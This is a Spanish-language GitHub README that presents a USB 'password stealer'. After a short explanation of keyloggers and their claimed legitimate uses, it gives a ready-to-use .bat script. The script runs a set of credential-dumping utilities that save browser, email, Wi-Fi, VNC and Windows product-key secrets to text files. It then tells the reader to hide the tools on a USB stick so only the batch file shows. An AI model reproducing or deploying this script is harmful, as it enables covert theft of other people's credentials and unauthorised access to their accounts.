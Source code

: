 
 # USB Para extraer contraseñas de un ordenador
 
La tecnología ha avanzado tanto, que se ha desarrollado una forma de robar o registrar información de una manera disimulada en cualquier ordenador. Este método es llamado keylogging, y puede ser beneficioso o malicioso según sea el uso que se le de, ya que si eres de los que descargan programas o introducen en el ordenador dispositivos USB constantemente puedes que seas víctima de esto.

Existen personas que usan este método de forma beneficiosa. Por ejemplo, las empresas usan los keylogger para registrar y ver el avance del trabajo de sus empleados, sin necesidad de estar constantemente pidiendo informes. Esta es una manera de organizarse y optimizar al máximo las labores de oficina. Sin embargo, es un tema tan delicado que solo puede hacerse con el consentimiento del empleado y con ciertas limitaciones para proteger información personal del mismo. 

<img align="center" height="480" width="1000" alt="GIF" src="https://github.com/ArisGuimera/ArisGuimera/assets/114537444/6d78f6c0-fe7c-40e1-9b0f-dc90c309c956"/>

## 💡 ¿Qué y para qué sirve un USB Keylogger “roba datos” o los llamados “Stealers” de información?
Un keylogger también es conocido como un captador de pulsaciones de teclas o un roba datos. Este es un programa o que se encarga de guardar o registrar todo lo que escribes al utilizar el teclado. Todo lo que recopila inmediatamente lo guarda en un fichero, o también se puede programar para que la información se envíe por internet a algún correo electrónico diariamente o semanal de manera automática.

Hay dos formas para poder hacer esto. La primera es el keylogger software (el más usado), que forman parte de malware como los troyanos o rootkits. Este puede ser enviado por un correo o por cualquier otro archivo descargado del internet. El segundo es el keylogger hardware (el cual no es muy habitual), que consiste en infectar con el programa un disco extraible USB e introducirlo en el ordenador el que se deseen extraer los datos.

No esta demás decir, que no siempre un keylogger puede ser una malware, perjudicial para tu PC, ya que hay algunas empresas que ofrecen este tipo de servicios para que el cliente tenga cierto control de sus ordenadores cuando es utilizado por otros, y también es muy usado por los padres para monitorear lo que hacen sus hijos.

<img align="center" height="524" width="1000" alt="GIF" src="https://github.com/ArisGuimera/ArisGuimera/assets/114537444/cae4f52a-29ce-4d41-af99-e88315468fe8"/>

## 📚 Ejemplo

En este ejemplo, podrás extraer las contraseñas almacenadas en los navegadores web, también extraerás todas las contraseñas de internet, correos, y la key del sistema operativo. Primero tendrás que descargar este repositorio, o sino, descargar solo los programas que te interesan y luego haces lo siguiente:

Abres un bloc de notas y pegas este codigo, dependiendo que programas quieres ejecutar y lo guardas como archivo .bat

```bash
start mspass.exe /stext mspass.txt
start mailpv.exe /stext mailpv.txt
start iepv.exe /stext iepv.txt
start pspv.exe /stext pspv.txt
start PasswordFox.exe /stext passwordfox.txt
start OperaPassView.exe /stext OperaPassView.txt
start ChromePass.exe /stext ChromePass.txt
start Dialupass.exe /stext Dialupass.txt
start netpass.exe /stext netpass.txt
start WirelessKeyView.exe /stext WirelessKeyView.txt
start BulletsPassView.exe /stext BulletsPassView.txt
start VNCPassView.exe /stext VNCPassView.txt
start OpenedFilesView.exe /stext OpenedFilesView.txt
start ProduKey.exe /stext ProduKey.txt
start USBDeview.exe /stext USBDeview.txt
```

Por ultimo solo copia los archivos descagados y ocultalos en alguna usb, solo dejando el .Bat

## 📚 Nota Importante
Algo a destacar es que todos los archivos deben estar en una misma carpeta, incluyendo el ".Bat" De lo contrario no funcionará.
